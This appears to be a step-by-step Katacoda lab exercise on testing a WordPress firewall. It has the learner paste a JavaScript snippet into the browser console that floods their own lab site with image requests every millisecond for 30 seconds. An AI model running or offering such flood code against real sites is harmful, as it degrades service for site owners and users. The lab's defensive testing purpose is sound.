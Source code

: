 ## **Enforce the DDoS to test the check the traffic control of the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

![Image](./assets/Inspect.png)
<br></br>

### **Step 3:** 
click the Console button to access the console:
![Image](./assets/Console.png)

### **Step 4:** 
Copy the following command and paste it in the console and click enter:


`
function imgflood() { 
  let URI = '/wp-admin/DDoS.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let DDoSTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(DDoSTimer), 30000); //Stop running in 30 sec
`{{copy}}

![Image](./assets/ConsoleAddCommand.png)


### **Step 4:** 
Refresh the page after the DDoS command run and you can the Firewall block the DDoS attack which sends more than 1000 request successfully:

![Image](./assets/Block.png)